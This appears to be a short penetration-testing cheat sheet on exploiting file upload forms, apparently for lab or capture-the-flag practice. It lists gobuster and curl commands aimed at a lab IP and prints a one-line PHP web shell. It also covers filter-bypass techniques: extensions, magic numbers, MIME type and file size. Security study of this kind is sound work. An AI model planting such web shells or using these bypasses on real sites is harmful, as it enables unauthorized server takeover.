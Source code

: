 # Upload Exploitation Procedure
Take the following steps to begin exploiting file uploads.

## 1. Scan the application
This can be done by creating valid user accounts or by using `gobuster`

- Framework / Platform
- Server (determines payload)
- 3rd party scripts / plugins
- Location of file upload form
- Client side scripts may hint towards backend filters

```sh
gobuster dir -u 10.10.10.10/content -w wordlist -x php,jpg
```

## 2. Upload a valid file
- Where can the uploaded image be accessed? 
```sh
curl -i -X POST -F "fieldname=@shell.php" 10.10.10.10
```

## 3. Attempt a malicious payload
A simple PHP payload saved as shell.php. This should not work at all, but worth a try.

```sh
<?=system($_GET['cmd']);?>
```

## 4. Invalid extensions
Try a completely invalid extension like `image.invalid`. 

| Upload Status | Extension Filter |
| ------------- | ------ |
| Success | Blacklist |
| Fail | Whitelist |

## 5. Magic numbers
Take the valid file and change the magic numbers to a file you would expect to be blocked. If the upload fails then you know they are filtering by magic numbers.

## 6. MIME Type
Take the valid file and change the MIME type to a file you would expect to be blocked. This can be done using burp suite or by sending the file directly to the endpoint.

```php
<?php
header('Content-Type: application/pdf');
```
## 7. File length
Upload progressively bigger files until you hit the filter. Craft a payload within those limits.

